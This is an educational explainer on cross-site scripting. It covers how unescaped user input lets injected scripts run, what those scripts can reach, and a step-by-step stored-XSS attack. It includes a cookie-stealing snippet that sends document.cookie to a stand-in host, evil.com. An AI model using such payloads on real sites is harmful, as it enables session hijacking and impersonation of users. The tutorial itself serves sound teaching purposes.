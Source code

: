 # What is Cross-site scripting (XSS) 

Cross-site scripting (XSS) is a type of computer security vulnerability typically found in web applications. XSS enables attackers to inject client-side scripts into web pages viewed by other users. A cross-site scripting vulnerability may be used by attackers to bypass access controls such as the same-origin policy. 

Cross-Site Scripting (XSS) attacks are a type of injection, in which malicious scripts are injected into otherwise benign and trusted websites. XSS attacks occur when an attacker uses a web application to send malicious code, generally in the form of a browser side script, to a different end user. Flaws that allow these attacks to succeed are quite widespread and occur anywhere a web application uses input from a user within the output it generates without validating or encoding it.

An attacker can use XSS to send a malicious script to an unsuspecting user. The end user’s browser has no way to know that the script should not be trusted, and will execute the script. Because it thinks the script came from a trusted source, the malicious script can access any cookies, session tokens, or other sensitive information retained by the browser and used with that site.

# How Cross-site Scripting works

In order to run malicious JavaScript code in a victim’s browser, an attacker must first find a way to inject a payload into a web page that the victim visits. Of course, an attacker could use social engineering techniques to convince a user to visit a vulnerable page with an injected JavaScript payload.

In order for an XSS attack to take place the vulnerable website needs to directly include user input in its pages. An attacker can then insert a string that will be used within the web page and treated as code by the victim’s browser.

The following server-side pseudo-code is used to display the most recent comment on a web page.

```python
print "<html>"
print "<h1>Most recent comment</h1>"
print database.latestComment
print "</html>"
```

The above script is simply printing out the latest comment from a comments database and printing the contents out to an HTML page, assuming that the comment printed out only consists of text.

The above page is vulnerable to XSS because an attacker could submit a comment that contains a malicious payload such as <script>doSomethingEvil();</script>.

Users visiting the web page will get served the following HTML page.

```html
<html>
<h1>Most recent comment</h1>
<script>doSomethingEvil();</script>
</html>
```

When the page loads in the victim’s browser, the attacker’s malicious script will execute, most often without the user realizing or being able to prevent such an attack.

> Important Note — An XSS vulnerability can only exist if the payload (malicious script) that the attacker inserts ultimately get parsed (as HTML in this case) in the victim’s browser.

### What’s the worst an attacker can do with JavaScript?

The consequences of what an attacker can do with the ability to execute JavaScript on a web page may not immediately stand out, especially since browsers run JavaScript in a very tightly controlled environment and that JavaScript has limited access to the user’s operating system and the user’s files.

However, when considering that JavaScript has access to the following, it’s easier to understand how creative attackers can get with JavaScript.

* Malicious JavaScript has access to all the same objects the rest of the web page has, including access to cookies. Cookies are often used to store session tokens, if an attacker can obtain a user’s session cookie, they can impersonate that user.
* JavaScript can read and make arbitrary modifications to the browser’s DOM (within the page that JavaScript is running).
* JavaScript can use XMLHttpRequest to send HTTP requests with arbitrary content to arbitrary destinations.
* JavaScript in modern browsers can leverage HTML5 APIs such as accessing a user’s geolocation, webcam, microphone and even the specific files from the user’s file system. While most of these APIs require user opt-in, XSS in conjunction with some clever social engineering can bring an attacker a long way.

The above, in combination with social engineering, allow attackers to pull off advanced attacks including cookie theft, keylogging, phishing and identity theft. Critically, XSS vulnerabilities provide the perfect ground for attackers to escalate attacks to more serious ones.

### The anatomy of a Cross-site Scripting attack

An XSS attack needs three actors — the website, the victim and the attacker.

In the example below, it shall be assumed that the attacker’s goal is to impersonate the victim by stealing the victim’s cookie. Sending the cookie to a server the attacker controls can be achieved in a variety of ways, one of which is for the attacker to execute the following JavaScript code in the victim’s browser through an XSS vulnerability.

```html
<script>
   window.location=“http://evil.com/?cookie=” + document.cookie
</script>
```

The figure below illustrates a step-by-step walkthrough of a simple XSS attack.  

<img src="https://d3eaqdewfg2crq.cloudfront.net/wp-content/uploads/2012/10/how-xss-works-1024x454.png">

1. The attacker injects a payload in the website’s database by submitting a vulnerable form with some malicious JavaScript
2. The victim requests the web page from the website
3. The website serves the victim’s browser the page with the attacker’s payload as part of the HTML body.
4. The victim’s browser will execute the malicious script inside the HTML body. In this case it would send the victim’s cookie to the attacker’s server. The attacker now simply needs to extract the victim’s cookie when the HTTP request arrives to the server, after which the attacker can use the victim’s stolen cookie for impersonation.



